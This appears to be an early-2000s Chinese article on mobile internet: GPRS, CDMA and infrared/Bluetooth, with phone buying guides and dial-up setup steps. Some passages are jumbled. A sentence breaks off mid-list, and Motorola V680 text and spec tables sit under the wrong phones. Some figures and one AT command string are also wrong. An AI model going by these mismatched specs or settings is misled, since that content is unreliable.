网址：http://wap.chnmobile.net或http://wap.gd.chnmobile.net。

### 二、GPRS 是主流还是过渡

对于上网的用户来说，最让人讨厌的就是上网速度慢、经常掉线。WAP曾被吹嘘为新移动上网时代的开创者，但其像蜗牛一样的速度让不少“吃螃蟹者”大倒胃口。这时，GPRS出现了。

### （一）什么是GPRS

GPRS是通用分组无线业务（General Packet Radio Service）的简称，是在现有的第二代移动通信GSM系统上发展起来的分组交换系统，提供端到端的、广域的无线IP连接。GPRS是现有GSM网络向第三代移动通信演变的过渡技术。发展GPRS技术十分经济，因为它只需沿用现有的GSM网络来修正即可。虽然是介于第二代和第三代之间的一种网络技术（2.5代），但它在许多方面都具有显著的优势，也是目前国内最先进的商用网络技术。

在GPRS网络中，无线信道可以根据需要自行分配，而在CSD环境下，WAP用户只能使用指定的信道来传输数据，如果操作不结束，这条信道就会一直被占用。例如：当4个用户同时上网时，就必须占用4个数据信道。而GPRS技术就不存在这个问题，它可以在同一个信道中同时支持4个用户，而且不会对性能有大的影响。如果流量过大，才会自动启用其它信道。

### （二）GPRS 的五大优点

- 1. 瞬间上网
  GPRS的用户一开机，就始终附着在GPRS网络上，每次使用时只需一个激活的过程（一般为2~3秒）就能登录互联网。
- 2. 永远在线
  GPRS使用了“分组”技术，只要GPRS手机处于开机状态，就随时与移动GPRS网络保持联系。用户访问互联网时，就算没有数据传送，手机还一直与网络保持连接，不但可以由用户端这一侧发起数据传输，还可以从网络一侧随时启动Push类业务，不像普通拨号上网那样断线后还得重新拨号才能上网冲浪。
- 3. 快速传输
  GPRS采用分组交换技术，无线网络的传输速率最高可达171.2kbps，但实际速度受到编码的限制和手机终端的限制可能会有所不同。不过，只有同时启用8个信道进行GPRS传送时，数据传输时的速率才能达到114Kbps，而一般情况下为进行话音传送，只会用1~4个信道进行GPRS应用，因此实际传输速率一般为50kbps左右。
- 4. 按量计费
  GPRS技术是一种面向非连接的技术，用户只有## （三）GPRS终端上网速率的影响因素

GPRS终端的上网速率取决于以下三个因素。

### 1. 编码方式
GPRS需要用一定的方式对数据进行编码以方便传输。编码方式分为CS-1、CS-2、CS-3、CS-4共4种，对应的传输速率分别为9.05Kbit/s、13.4Kbit/s、15.6Kbit/s和21.4Kbit/s。其中CS-1有最好的防错机制，CS-4没有任何防错措施，其它两种编码方式的安全性能介于CS-1和CS-4之间。

### 2. 网络可用的信道资源
GSM网络的每一频点可分成8个信道，通常我们在通话时，会使用其中一个信道。GPRS在进行数据传输时，最多可以同时使用8个信道，如果采用CS-4编码方式的话，传输速率即可达到171.2Kbit/s（8×21.4Kbit/s）。

### 3. GPRS终端支持的信道数量
在购买GPRS手机时，一定要注意手机标明的最大信道数量指标。早期GPRS手机，如摩托罗拉P7389i只支持3个下行信道，1个上行信道。现在主流的GPRS一般支持4个下行信道，1个上行信道。

中国移动的GPRS网络使用的是CS-2编码方式，一般来说，使用主流GPRS手机上网，速率最高可以达到53.6Kbps，与普通家用56K“猫”上网速率相差不大。

## （四）GPRS的终端类型
GPRS白皮书规定了三种模式的终端。

- （1）A类（Class-A）终端，可同时运行GPRS和其他GSM服务。
- （2）B类（Class-B）终端，可同时监测GPRS和其他GSM业务的控制信道，但同一时刻只能运行一种业务。
- （3）C类（Class-C）终端，只能使用GPRS服务或其它GSM服务中的一种。

目前大多数的GPRS手机都属于B类终端，GPRS上网的同时也能通话，但需要有一个切换过程。例如手机在下载过程中有电话打入，下载过程会暂停，手机切换成接听状态，接完电话后，再切换回去接着继续下载。

另外，我们还经常听到有Class 8、Class10的说法，这是指GPRS终端能使用的信道数量，单独提及时，正确且完整的写法是Multi-Slot Class，可以翻译为“多信道类型”。GPRS规定了28种多信道类型。在一些厂商的产品介绍中，也有把终端类型和多信道类型联用的，如“Class B8”，就表示该GPRS终端类型为Class B，多信道类型为Class 8（支持4个下行信道，1个上行信道）。

## （五）GPRS的主要应用形式
- （1）接入Internet业务，配合GPRS手机、数据套件“红外/蓝牙”和笔记本电脑一起使用。
- （2）通过使用GPRS Modem和笔记本电脑的方式接入因特网（GPRS Modem相当于诺基亚的Card Phone，可以插入笔记本电脑的PCMCIA槽中）。
- （3）WAP over GPRS（通过GPRS手机访问WAP网站）。
- （4）集成于某些GPRS手机的应用（终端带有E-mail的客户端软件，将支持POP3邮件的软件集成在GPRS终端，实现邮件收发处理，如Motorola6288）。
- （5）集成于某些GPRS手机的应用功能。如Instant Message即时消息。将IM软件集成在GPRS终端，直接实现即时消息交流（Motorola6288支持该功能）。
- （6）通过PDA终端接入GPRS网络。
- （7）SMS over GPRS。包括信息点播、1258/9和移动梦网等多种SMS服务。

## （六）GPRS在中国
GPRS是在GSM基础上发展起来的基于2.5代技术的移动数据网，通过分组交换技术实现数据传输。GPRS最主要的优势在于“永远在线”和“按流量计费”。另外，原有的GSM用户升级为GPRS用户是不需要更换手机号码的，直接在GSM的手机号码上开通GPRS服务即可。

目前，全球对3代网络的发展都较为谨慎，相信中国的运营商也会根据数据用户的数量和需求稳步发展3代网络。GPRS虽然是2.5代的网络产品，但并不意味着GPRS仅仅是一个过渡产品，相反，GPRS是第二代向第三代网络前进的一个重要的、不可或缺的一个里程碑。因为GPRS较之GSM在数据的传输上产生了由电路交换到分组交换这样一个质的飞跃，对于移动互联网和数据业务有了一个很大的促进，在现阶段3代的道路尚不是很清晰，技术发展与市场需求都不是很成熟的情况下，GPRS在未来4~5年将成为移动数据业务的最主要的承载方式。

## （七）主流GPRS手机的选购指南

1. 摩托罗拉 388 （如图3）

拥有顶级跑车流线外形的388在功能上除提供完整的PIM个人信息管理功能、GPRS高速下载外，其高达1.6MB的J2ME记忆空间容量更是可以让使用者依个人喜爱下载e-book、e-Cartoon、e-Joke、e-Finance、游戏等应用程序。丰富的动态多媒体特性，充分满足了手机用户随时扩充思考机能，及无线下载的乐趣。另外，388的EMS增强型短信功能可同时传送图形、铃声及动画，让商务人士在工作之余，还能坐享EMS简讯传送的无穷乐趣。在功能部分，三频GSM 900/1800/1900，让这款手机使用者走到世界各地都能畅谈无阻；GPRS高速上网，可让用户随时随地接收最新信息；还可以随时上网收发信件呢！摩托罗拉388的设计参数如图4所示。

| 项目 | 参数 |
| :--- | :--- |
| 【网络类型】 | GSM900MHz/1800MHz/PCS1900MHz/GPRS |
| 【尺寸体积】 | 97.5mm×59mm×26mm/115cc |
| 【手机重量】 | 130克 |
| 【手机颜色】 | 星云银、海蓝色 |
| 【标准配置】 | 皮套、旅充、手写笔、锂聚合电池 2个(800mAh) |
| 【通话时间】 | 3-4小时 |
| 【待机时间】 | 95-160小时 |
| 【上市时间】 | 2002年02月 |

图4 摩托罗拉388的设计参数

2. 索尼爱立信T68ie（如图5）

作为索尼和爱立信联姻的首款机型，T68ie是全球首款支持多媒体短消息功能的手机。只需将照相机接到手机底部，T68ie便可以方便地拍摄照片，同时将照片通过多媒体短消息的方式发送到另一部手机上或是电子信箱里，并将照片储存在手机的相册内。

T68ie内置蓝牙无线技术，比传统的红外线接口更先进。通过蓝牙模块，T68ie还支持以无线方式连接耳机、个人电脑及其他具备蓝牙无线技术的设备。当然，它也可以从互联网上或通过电脑下载彩色图片、卡通图像和图标。

T68ie还有许多多媒体影像功能，让您体验方便、有趣的来电识别过程。当你和朋友见面时，将他的电话号码输入T68ie的同时，只要快速方便地接上CommuniCam MCA-20，拍一张照片，并把它加入联系人信息里。当下次这个朋友来电时，这张照片就会活灵活现地出现在您的手机屏幕上了。索尼爱立信T68ie的设计参数如图6所示。

| 项目 | 参数 |
| :--- | :--- |
| 【网络类型】 | GSM900/1800/1900MHz/GPRS |
| 【尺寸体积】 | 100×48×20mm |
| 【手机重量】 | 84克 |
| 【手机颜色】 | 冰雪银蓝 |
| 【标准配置】 | 锂电池(700mAh)、充电器 |
| 【通话时间】 | 180-720分钟 |
| 【待机时间】 | 195-390小时 |
| 【特殊说明】 | 支持MPEG-4格式的动态影像，支持WBMP、GIF、JPEG等图片格式。 |
| 【上市时间】 | 2002年09月 |

图6 索尼爱立信T68ie的设计参数

3. 阿尔卡特OT715（如图7）

阿尔卡特OT715的设计思想取材于七十年代复古、高贵、典雅的风格，并揉合了二十一世纪的劲酷时尚品位。它在外形上最独特的地方是其几乎占了手机二分之一面积的4级灰度显示屏幕，可以清晰显示多达7行汉字。超大的屏幕可以竖直显示，也可以切换成横向显示，使用户不论在阅读短讯，浏览网页还是游戏激战时，都能发挥其与众不同的作用。

全面、强大的商务功能是OT715的另一大卖点。超大容量的电话簿，除了记录多达800条个人记录外，还可分多个组别储存。强大的记事本功能，可以记录1000个约会及60个需处理的事件。OT715还可以与电脑互连，实现电话簿、记事本等重要信息的同步传输。作为一款GPRS手机，OT715拥有丰富完善的网络功能，增强的WAP功能使网页浏览更加稳定轻松。通过配置的电脑软件包，可以创作只属于自己的音乐振铃和屏幕图像，让OT715手机成为个人所爱。而极方便易用的外接短讯输入键盘更是一种享受。

OT715中还秉承了其家族广受欢迎的“音话e指通”短讯功能，除了可以随心所欲地将一条集合了文字、动画、铃声、图标的短消息发送给任意一部拥有EMS功能的手机外，你还可以在网上为OT715下载更加丰富的图案、照片、全屏幕动画以及优美的铃声旋律。最吸引人的是，OT715还允许用户将电话簿里联系人的照片储存在手机内，每当来电时，手机屏幕就会显示出来电者的相片，让接听电话增添了更多乐趣和个性。另外，OT715内置的三款小游戏不仅有趣，而且通过横向的超大显示屏幕，更让你得心应手，趣味无穷。阿尔卡特OT715的设计参数如图8所示。

| 项目 | 参数 |
| :--- | :--- |
| 网络类型 | GSM900/1800MHz |
| 【尺寸体积】 | 116×43×20mm |
| 【手机重量】 | 88克 |
| 【手机颜色】 | 银、黑、灰 |
| 【标准配置】 | 锂电池(730mAh)、旅行充电器、外接键盘、数据线 |
| 【通话时间】 | 最多390分钟 |
| 【待机时间】 | 最多250小时 |
| 【上市时间】 | 2002年09月 |

图8 阿尔卡特OT715的设计参数

## （八）GPRS上网设置跟我学

在这里，我们利用教大家在PALM上玩转ICQ聊天软件的案例，示范如何使用PALM借助GPRS手机登陆互联网。

要实现真正的无线网络聊天，首先得有一部支持GPRS功能的手机，并在手机中进行正确的设置。在这里，我们以爱立信T39mc为例，具体的设置过程请参考前面的WAP上网的操作步骤。其次得有一部PALM操作系统的PDA，这里我们以采用PALM4.0操作系统的SONY S320为例。

用PALM通过手机的GPRS功能上网，PALM与手机的连接方式可以用数据线和红外线两种方式，这里我们通过大家常见的红外线方式来进行讲解。首先，手机和PDA都要有红外线端口，然后将两者的红外线端口对正，相互间距离在5厘米左右，不超过30度的偏差(如图9)，这就做好了物理上的准备工作了。当然，不要忘了开启两部设备的红外线功能。

接下来是进行PALM上的设置。先进入到“连接”选项中（如图10）。

建立一个新的连接ir modem，在“连接到”命令中选择数据机，“经由”选择Infrared，“拨号中”选择按键式，“音量”随便选择（如图11）。

然后进入“详情”选择项中，“速度”选成57600bps，“流量控制”选自动，“初始化字符串”中填入AT+CGDCOUNT=1，“IP”，“cmnet”。这串初始化指令对某些机型上的GPRS很有用，像西门子的手机没有这串指令支持在一些地区根本无法上网，填写完毕后按“确定”（如图12）。

全部确定后就发现在“连接”选项上多出了一项ir modem的可用连接选项（如图13）。

下面再进入到“网络”选项中进行参数设定。在“服务”中选择这个ir modem名的连接，“用户名称”和“密码”其实都不起作用，随便填入以骗过PALM系统的连接检查。“连接”当然要选ir modem这个连接了，“电话”是指拨号的号码，一般来说全国统一是*99#，也有的地区不同，有*99***1#、*99***2#、*99***3#这三个号码，大家在实际中可以不同地试一下（如图14）。

然后进入“详情”选项，在“连接类型”中选PPP协议，在“闲置断线时间”中选从不，将“查询DNS”和“地址”都勾选（如图15）。

完成后点击“连接”，你就发现PALM和手机很快就建立起连接（如图16），然后打开ICQ程序，很快就连接上了（如图17）。当在PALM上出现你亲切的聊天画面时，你是不是很激动了？费用方面你也不用担心，GPRS是按流量计费，就算是长期挂在线上，只要不交谈，一样没有费用的。

## （九）用笔记本借助 GPRS 手机上网

前面我们讲了有关GPRS的应用方案，这里我们再来讲一下如何使用笔记本借助GPRS手机上因特网的配置过程。

首先你得有一部GPRS的手机和一台笔记本，和笔记本相连接的方式可以是通过数据线，也可以是通过红外线，但必须是二者都能使用的方式，建议使用红外线方式。

在硬件准备完成后，我们就可以进行笔记本端的设置了。先进入“控制面板”选项，选中“添加/删除新硬件”，这时会出现一个添加新硬件的安装向导询问你要安装的硬件是否在列表中列出，直接选“不，设备未在列表中列出”（如图18）。

然后点击“下一步”进入下一个安装向导界面，选中“否，希望在列表中选择硬件”（如图19）。

因为我们是在笔记本上虚拟一个调制解调器设备，所以在下一个安装界面中选择安装“调制解调器”（如图20）。

然后在下一个安装调制解调器的界面中将“不检测调制解调器，直接从列表中选取”打上勾（如图21）。

点击 “下一步” 进入下一个安装界面。记住，在选择调制解调器的类型和型号时一定要选取 “标准调制解调器类型” 中的 “标准19200bps调制解调器” (如图22)。

当显示调制解调器安装完成的界面后，离成功已经只有一半的路程了 (如图23)。

接着要建立一个新的拨号连接，比如取名叫“我的 GPRS”，不过在调制解调器上要选择我们前面安装好的标准 19200bps 调制解调器，然后进入属性的设置 (如图24)。

在 “常规” 选项中端口选择你安装调制解调器的端口，在端口选择上根据你连接手机的端口位置进行选择，一般是 COM1 口，最快速率选择 57600 (如图25)。

连接选项卡中的各项参数可以不改动（如图26）。

但必须进入‘高级’选项内加入AT指令，就是在‘附加设备’空白栏中填入AT+CGDCONT=1,IP, cmnet（如图27）。

这个指令在某些地方的GPRS接入过程中作用相当关键，特别是西门子的手机，如果不输入这个指令基本上很难上网。这些小的项目完成后下一步进入拨号号码设置，输入当地的区号。因为是虚拟的设备，所以拨号的号码为*99#，或根据各地CSD不同输入*99***1#，*99***2#，*99***3#等号码（如图28）。

然后点击‘下一步’，拨号设置至此完成，在网络与拨号连接中你会发现多了一个名叫‘我的GPRS’的拨号连接（如图29）。

双击这个‘我的GPRS’的拨号连接，在用户名和密码栏中全部为空白，拨号为*99***1#，然后拨号（如图30）。

不久，熟悉的拨号和登录界面就出现了，是不是很简单呀（如图31、32、33）？

### 三、CDMA 绝地反击

## （一）什么是 CDMA
CDMA 的英文全称是 Code Division Multiple Access, 中文含义是码分多址的意思。它是根据美国标准 (IS-95) 而设计的频率在 900~1800MHz 范围内的数字移动电话系统。这是一种采用 Spread-Spectrum 的数字蜂窝技术，与使用 Time-Division Multiplexing (TDMA) 的竞争对手 (如 GSM) 不同，CDMA 并不给每一个通话者分配一个确定的频率，而是让每一个频道使用所能提供的全部频谱，而且 CDMA 对每一组通话用伪随机数字序列进行编码，提高了保密性。

## （二）CDMA 技术的优势
- 1. 声音质量高
CDMA 可变速率声码器所提供的话音质量清晰，背景噪声小，其品质已经接近有线电话效果。
- 2. 通话不易中断
CDMA 系统自动跟踪多径信号和软切换技术，大大降低切换掉线的可能性，这将非常有利于提高用户在移动过程中通话和数据传输的稳定性。
- 3. 接通率高
CDMA 的扩频技术和频率复用技术，充分利用信道容量，提高网络接通率。
- 4. 保密性能好
CDMA 系统的鉴权、数字格式、扩频处理等通话保护措施，可提供最佳的保密特性，防止通信过程中的盗听和手机密码的盗用。
- 5. 发射功耗小
CDMA 系统的发射功率非常小，最大只有 200 毫瓦，正常通话时仅需 0.1 毫瓦，即使与一只普通灯泡相比，也仅相当于十万分之一。因此移动电话功耗小，无线辐射能量低。
- 6. 支持多项业务功能
CDMA 采用宽带技术，支持呼叫转移、呼叫等待、三方会谈、主叫号码显示、短消息、语音信箱、自动漫游、传真和数据通信、多种声码器服务等多项业务。

## （三）CDMA 在中国
早在 1997 年，国内就成立了以推动 CDMA 网络商用为宗旨的电信长城公司，标志着 CDMA 的商用已进入启动阶段。1999 年 4 月，国务院正式批准联通统一负责中国 CDMA 网络的建设、经营和管理。1999 年 6 月，中国联通正式加入由世界上 100 多个通信厂商和运营商组成的 CDMA 发展集团 (CDG)，壮大了 CDMA 的阵营。在同年举行的第四届 CDMA 年会上，中国联通提出：现有 CDMA 系统没有与手机分离的用户识别卡 (UIM)，给用户更换手机带来不便。因此，联通向 CDMA 发展集团 (CDG) 提出建议，要求 CDG 提前实施 CDMA 手机机卡分离计划。按照 CDG 原来的计划，机卡分离要到 2003 年才能实现。CDG 集团对这一建议给予迅速响应，很快召开了由全球著名的 CDMA 运营商参加的紧急电话会议，讨论通过了中国联通提出的提前实施 CDMA 手机机卡分离计划的建议，同意将机卡分离计划提前至 1999 年年底实施。这样，中国联通就成为世界上第一个采用 UIM 卡的 CDMA 运营商。

在之后的两年多时间内，联通一直忙于 CDMA 网络的招标和建设。并于 2000 年 9 月成立“联通新时空”专门负责 CDMA 网络系统的相关事宜，它希望 CDMA 网络能够成长为中国移动通信市场上的巨人，并作为未来与中国移动 GSM 网络竞争的重要筹码。按照联通新时空的规划：新的 CDMA 网络开通后，将能够覆盖全国 300 个以上的重要城市和地区。一期工程的规模将达到 1500 万用户，2003 年二期工程完工时，将达到 5000 万户的规模。联通新时空一期工程中采用的 CDMA 增强型IS95A技术与GSM在技术体制上同处于2G（第二代手机）产品。但有观点认为，CDMA手机仅需要升级软件，无需更换原来的手机，就可以适应3G的标准；而GSM在向3G过渡时，GSM用户将不得不重新买一台手机。这意味着：在向3G过渡方面，CDMA网络会更加平滑。

## （四）主流 CDMA 手机导购指南
- 1. 轻巧可人型——首信 C7288（如图 34）

首信 C7288 手机在功能上的设计上充分体现了其时尚、体贴和 CDMA 所代表的高质量、健康通讯的特点。它不仅有着 CDMA 手机辐射低、接通率高及通话质量高等特点，而且还在每个细小环节体现了人性化设计。C7288可容纳150组名片式电话号码、30种音乐铃声，并可从众多的手机铃声中辨认出自己的专属铃声，满足了人们的个性需求。C7288的设计参数如图35所示。

摩托罗拉V680突破性地将16和弦音运用到V680的铃声中，音色清晰，具有立体声效果。自录铃音功能让你随时把最熟悉和最喜爱的声音变成自己的手机铃声，享受DIY的乐趣；自动答录机功能让您在不方便接听来电时从容不迫，长达300秒的录音记事功能随时为你记录重要信息；通过在电话本中设置不同的来电铃音和图标，不看对方号码也能轻而易举的知道他是谁。摩托罗拉V680的设计参数如图39所示。

| 【网络类型】 | CDMA |
| 【尺寸体积】 | 68×38.5×23.5mm |
| 【手机重量】 | 68克 |
| 【手机颜色】 | 珍珠白、淡粉色、桔黄色 |
| 【标准配置】 | 双锂电池（600mAh/750mAh）、双充、一个耳机 |
| 【通话时间】 | 120分钟 |
| 【待机时间】 | 70-100小时 |
| 【上市时间】 | 2002年01月 |

## 2. 高贵典雅型——三星A599（如图36）


此款CDMA A599秉承了三星手机一贯的双屏折叠式设计和精湛制作工艺，造就出简洁而华贵的时尚外观。朴实、内敛的长方形轮廓和圆润、光滑的流线型边框将理智与感性完美地融于一体，由里而外透射出时尚、干练的气息。精致小巧的按键则成为画龙点睛之笔，与金属质感的机身相应生辉。63.9克的超轻身躯，配以酒红、珍珠白、金属银、香槟金和海洋蓝等五种亮丽色彩，使A599异常卓显个性风采。A599的设计参数如图37所示。

| 【网络类型】 | CDMA2000 1x |
| 【尺寸体积】 | 80×39×22.5mm（超薄电池） |
| 【手机重量】 | 63.9克（超薄电池） |
| 【手机颜色】 | 酒红、珍珠白、金属银、香槟金、海洋蓝 |
| 【标准配置】 | 锂电池（超薄550mAh，标准770mAh）、充电器 |
| 【通话时间】 | 120分钟（超薄电池） |
| 【待机时间】 | 65——80小时（超薄电池） |
| 【上市时间】 | 2002年09月 |

## 3. 清新魅影型——摩托罗拉V680（如图38）


| 【网络类型】 | CDMA |
| 【尺寸体积】 | 84×44×16.8mm |
| 【手机重量】 | 82克 |
| 【手机颜色】 | 银色配铂金白、银色配水晶紫、流沙金配铂金白 |
| 【标准配置】 | 锂电池(520mAh/850mAh)，充电器 |
| 【通话时间】 | 80-110分钟 |
| 【待机时间】 | 60-200小时 |
| 【上市时间】 | 2002年04月 |

## 4. 商务精英型——海信C2101（如图40）


海信C2101是一款极具个性化的手机，采用高科技的UV喷涂技术进行喷涂。金属质感的外观工艺，使手机表面不易磨损，其设计参数如图41所示。该款手机除了支持256色彩色显示以外，汉字显示区可显示多达8字×7行，使短消息等阅读更加方便，更具魅力色彩。独特的音乐16合音振铃声，具有19种曲风(包括原调)、9种乐器音色(不包括原调)可供选择，并可组合出多种不同的铃音，还可以自编多达10首的振铃音乐。500条超大容量的信息电话薄可以自动分组存取，并根据不同的身份，设置不同的号码组。该机具有快捷的开关，只须单键便可调节手机的三种接听模式，模式还可自行设置。如设定为：开会模式、安全模式、运动模式等。超时代的智能感应，将海信C2101从口袋或包中（弱光的环境下）取出手机时，振铃音会自动变小或消失。

| 【网络类型】 | CDMA |
| 【尺寸体积】 | 130×46×19mm |
| 【手机重量】 | 86克 |
| 【手机颜色】 | 银色 |
| 【标准配置】 | 锂电池，充电器 |
| 【通话时间】 | 140分钟 |
| 【待机时间】 | 150小时 |
| 【特殊说明】 | 智能感应功能(手机从口袋或包中等弱光环境中取出时，振铃音可自动变小或取消) |
| 【上市时间】 | 2002年01月 |

### 四、红外数据通讯

### （一）什么是红外线

红外线是波长在 750nm～1mm 之间的电磁波，它的频率高于微波而低于可见光，是一种人的眼睛看不到的光线。为了研究上的方便，红外线还可划分为以下三个波段，近红外：波长为0.78～3.0微米；中红外：波长为3.0～20微米；远红外：波长为20～1000微米。

红外线有着各种各样的用途，在这里我们只讨论它在通信范围内所发挥的作用。

### （二）红外线在通讯中的特点

无线电波和微波已被广泛地应用在长距离的无线通讯中，但由于红外线的波长较短，对障碍物的衍射能力差，所以更适合应用在需要短距离无线通讯的场合，进行点对点的直线数据传输。我们研究的红外通讯采用红外波段内的近红外线，为了保证不同厂商的红外产品能够获得最佳的通讯效果，红外通讯协议将红外数据通讯所采用的光波波长的范围限定在 850nm～900nm 内。

红外通讯有着成本低廉、连接方便、简单易用和结构紧凑的特点，因此在小型的移动设备中获得了广泛的应用。这些设备包括笔记本电脑、掌上电脑、机顶盒、游戏机、移动电话、计算器、寻呼机、仪器仪表、MP3播放机、数码相机以及打印机类的计算机外围设备上。试想一下，如果没有红外通讯，连接这其中的两个设备就必须要有一条特制的连线，如果要使它们能够任意地两两互联传输数据，该需要多少种连线呢？而有了红外口，这些问题就都迎刃而解了。

当然，所有这一切都受到像蓝牙、IEEE802.11b等新的无线数据传输技术的挑战，不过从目前的发展来看，最便宜、最稳定、最实用的短距离点对点的无线数据传输方式仍非红外线莫属。

### （三）先进的 FIR

1996年，IRDA 发布了 IRDA1.1 标准，即 Fast InfraRed，简称为 FIR。与 SIR 相比，由于 FIR 不再依托于 UART，其最高通讯速率有了质的飞跃，可达到 4Mbps 的水平。FIR 采用了全新的 4PPM 调制解调(Pulse Position Modulation)，即通过分析脉冲的相位来辨别所传输的数据信息，其通讯原理与 SIR 是截然不同的。FIR在115.2Kbps以下的速率依旧采用SIR的那种编码解码过程，所以它仍可以与支持 SIR 的低速设备进行通讯，只有在通讯对方也支持 FIR 时，才将通讯速率提升到更高水平。

就像 USB 和 IEEE 1394 技术一样，红外数据通讯的速率也在不断地攀升之中。继FIR之后，IRDA又发布了通讯速率高达 16Mbps 的 VFIR 技术(Very Fast InfraRed)，并将它作为补充纳入IRDA1.1标准中。更高的通讯速率使红外通讯在那些需要进行大数据量传输的设备上也可以占有一席之地，而不再仅仅是连接线的替代。

IRDA 标准包括三个基本的规范和协议：物理层规范(Physical Layer Link Specification)、连接建立协议(Link Access Protocol：IrLAP) 和连接管理协议 (Link Management Protocol：IrLMP)。物理层规范制定了红外通讯硬件设计上的目标和要求，IrLAP 和 IrLMP 为两个软件层，负责对连接进行设置、管理和维护。在IrLAP和IrLMP基础上，针对一些特定的红外通讯应用领域，IRDA还陆续发布了一些更高级别的红外协议，如 TinyTP、IrOBEX、IrCOMM、IrLAN、IrTran-P 等，在此不再赘述了。

随着移动计算和移动通讯设备的日益普及，红外数据通讯已经进入了一个发展的黄金时期。自1993年IRDA 成立至今，红外数据协会的会员公司已经发展到150多个，当今在IT业和通讯业叱咤风云的大公司几乎都在其中，由此可见IRDA标准已经获得了业界的广泛认同和支持。目前已经开发生产出来的具备红外通讯能力的设备已有一百种之多，红外模块的年装机量已经达到了一亿五千万套，并且每年还有着40%的高速增长。尽管现在有了同样是近距离无线通讯的蓝牙技术，但以红外通讯技术低廉的成本和广泛的兼容性优势，红外数据通讯势必会在将来很长的一段时间内在短距离的无线数据通讯领域继续扮演重要的角色。

### （四）红外通讯应用实例

前面我们说过，红外线可以用来在笔记本电脑、掌上电脑、机顶盒、游戏机、移动电话、计算器、寻呼机、仪器仪表、MP3播放机、数码相机以及打印机等设备间进行数据传输及通讯交流，实际上我们平时应用得最多的还是利用电脑通过红外线方式来管理像手机、PDA等这类终端设备上的资料，也可以把手机内部的联系人资料在支持红外线传输的手机、PDA间相互交流……由于普通台式机一般都没有配备红外适配器，所以必须要外接红外适配器并安装驱动程序，最常用的就是MA－600。MA-600提供一个标准的 IRDA 红外线的传输界面，通过 RS 232 界面与您的桌上型计算机连接。通过红外线相关的软件或应用程序，可以传输信息到有红外线传输装置的设备上。实际上现在还有一类软件，其作用不仅仅是帮助手机进行联系人资料相互交流这类简单的作用，它还能实现用电脑管理手机的电话簿中英文输入、中英文短信息管理、日历管理、LOGO设计铃声编辑等一些功能，其连接方式大都是采用红外线，也有的是采用红外线与数据线相互兼容的形式。有人把它们称之为手机DIY软件，实际上这也是对红外线应用的具体实现方式。

支持红外线传输方式的手机DIY软件有logo Manager、西门子手机工作室、手机良伴等软件。在这里，我们以北京东方洪辉科技有限公司研发的“手机通”软件系统简单介绍一下如何利用红外线方式在电脑上对手机内的资料进行管理及其它操作。

### 1. 准备工作

该软件可在http://www.richage.com/cn/download/download.htm免费下载，“手机通”软件需要配合红外数据传输才能正常使用，所以你还需要购买RA2000手机通红外数据套件。手机红外传输套件目前有2个版本：一是由RA2000红外线装置及“手机通”软件组成，而另外一个就是支持有红外口的笔记本的V1.0.1。不过由于RA2000的硬件设备符合IRDA1.0规范，所以RA2000手机通红外数据套件也可以连接POCKET PC、Palm、笔记本电脑及装有Windows CE平台的手持设备和所有符合IRDA标准的设备进行连接，这相当于升级了你的PC机，扩展了它的功能。而且使用带红外接口的笔记本的用户，还可以利用最新的“手机通”V1.0.1 笔记本版直接和手机进行数据传输。

### 2. 红外线数据套件及软件的安装

RA2000的一端为红外线装置，另一端为标准的RS232 9针接头。将9针接头那端插到计算机上的9针串口接头即可。如果RA2000是接到串口2，则应该进入BIOS（基本输入输出系统），并确定串口2选项是 Enabled 且设为 UART COM2。切勿将串口2设为 Infrared Enabled，必须设为标准 COM 端口。手机通软件不需要安装驱动程序即可以正常运行，只有设备作为标准的红外设备时才需要安装驱动程序，但如果要运行“手机通”软件，就要停止或卸载标准红外设备的驱动程序。

将RA2000接到计算机的串口上后，就可以运行“手机通软件”了。如果你使用的是带有红外接口的笔记本电脑的话，那么就不必安装其它的红外传输设备了。可以选择“我的电脑”→“属性”（如果你使用的是Windows2000和WindowsXP的操作系统，则选择“管理”），然后在“设备管理器”里面查看有没有“红外设备”。如果有，就表明红外线设备已经安装正确了，只要将手机的红外功能同时启动，就可以通过红外接口与手机进行数据传输了。

这里我们以摩托罗拉P7689为例演示如何使用手机通软件进行操作。从http://www.richage.com/cn/download/P7689.exe分别下载支持Motorola P7689/7789和支持L2000、L2000WWW、LF2000、LF2000WWW的软件，下载后桌面上出现一个图标，点击即可运行该软件。

### 3. 软件的设置

支持Motorola L2000、L2000WWW、LF2000、LF2000WWW的软件可以管理电话簿，发送短消息和实现移动QQ，而支持P7689/7789的软件还可以进行日历管理和铃声编辑。

- (1) 运行P7689.exe软件，将会出现如下界面，如图45所示，窗口下方状态栏的信息，“尝试接通中”表示手机通软件正在通过 RA2000套件查找Motorola P7689/7789 手机。


- (2) 然后选择功能表“选项”里的“通讯”功能，在这里，要设置RA2000所接的计算机硬件COM的端口位置。软件默认此端口为COM1，如将RA2000接到了串口2上，就将计算机硬件COM端口值设为COM2（如图46）。如果使用的是具有红外线接口的笔记本就不需要这一步的设置了。软件会提示“红外端口连接成功”，如图47所示。


- (3) 设置好软件后，接着我们要打开手机的红外线功能，让手机与手机通软件连接。按下手机的“话机设置”里面“启动红外线连接”选项来开启红外线。然后将手机机身上方的红外线发射/接受器与RA2000 的红外线发射/接受器对准，此时手机通软件界面下方就会显示“和手机接通成功”。接通成功后就可使用手机通软件的各项功能了。

### 五、蓝牙技术全接触

蓝牙，曾经辉煌无比、风光无限，也曾经被美国《网络计算》杂志评为“十年来十大热门新技术”。但是，在各种新老技术的夹攻下，它的发展情况并不美妙。从蓝牙技术发明出来到今天已经有8年的时间了，可以说直到今年，蓝牙市场才刚刚开始启动……

### （一）蓝牙是什么


简单说，蓝牙技术是一种用于替代便携或固定电子设备上使用的电缆或连线的短距离无线连接技术。图48所示的是蓝牙技术的专利标志。其设备使用全球通行的、无需申请许可的2.45GHz频段，可实时进行数据和语音传输，速率达到10Mbps，在支持3个话音频道的同时还支持高达723.2kbps的数据传输速率。也就是说，在办公室、家庭和旅途中，无需在任何电子设备间布设专用线缆和连接器，通过蓝牙遥控装置可以形成一点到多点的连接，即在该装置周围组成一个“微网”，网内任何蓝牙收发器都可与该装置互通信号。而且，这种连接无需复杂的软件支持。蓝牙收发器的有效通信范围一般为10米，强的可以达到100米左右。正如爱立信蓝牙组负责人所说，设计蓝牙的最初想法是“结束线缆噩梦”。

### （二）蓝牙为何难流行

